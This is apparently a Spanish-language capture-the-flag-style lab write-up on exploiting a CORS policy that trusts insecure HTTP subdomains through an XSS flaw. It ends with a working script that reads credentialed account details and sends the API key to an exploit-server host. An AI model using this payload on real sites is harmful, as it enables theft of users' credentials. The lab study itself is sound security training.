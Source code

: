 En esta clase abordamos un caso en el que el servidor permite solicitudes CORS desde cualquier subdominio, independientemente de si usan HTTPS o HTTP. Esta configuración es especialmente peligrosa cuando se combinan con peticiones que incluyen credenciales.

Aprovechamos una funcionalidad vulnerable de la aplicación, donde una URL en HTTP ejecuta un script inyectado a través de un parámetro. Este script lanza una solicitud **XMLHttpRequest** a un endpoint protegido, obteniendo la clave API del administrador gracias a que el origen inseguro en HTTP sigue siendo aceptado por el servidor. El resultado se redirige al servidor de explotación, permitiendo capturar y enviar la clave para completar el laboratorio.

Solucion
aplicamos los pasos pero en este caso no va funcionar ni el null ni otra cosa
![Pasted_image_20250728211958.png](Imagenes/Pasted_image_20250728211958.png)
entonces aqui trabaja con subdominios
la primera prueba sera con el propio dominio
![Pasted_image_20250728212301.png](Imagenes/Pasted_image_20250728212301.png)
probamos con otro diferente
![Pasted_image_20250728212435.png](Imagenes/Pasted_image_20250728212435.png)
y tambien funciona
ahora toca buscar en la web aver que encontramos
La web:
![Pasted_image_20250728212612.png](Imagenes/Pasted_image_20250728212612.png)
presionamos el del perro
![Pasted_image_20250728212639.png](Imagenes/Pasted_image_20250728212639.png)
le damos en check stock
cuando le damos en check stock obtenemos esto
![Pasted_image_20250728212726.png](Imagenes/Pasted_image_20250728212726.png)

vamos a intestigar esa nueva ventana injectando codigo
![Pasted_image_20250728212850.png](Imagenes/Pasted_image_20250728212850.png)
y es vulnerable a xss
y podemos ver que este subdomio no tiene problema en ser mandado al origin
![Pasted_image_20250728213015.png](Imagenes/Pasted_image_20250728213015.png)
asi que vamos a mandar exfiltrar informcion entonces para ello vamos a realizar un script

<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        location = "https://exploit-0a97004f0494e312811342b1019000de.exploit-server.net/?apikey=" + btoa(req.responseText);
    };
    req.open("GET","https://0a2e00b004e4e31e81c24391008f00ae.web-security-academy.net/accountDetails", true);
    req.withCredentials = true;
    req.send();
</script>
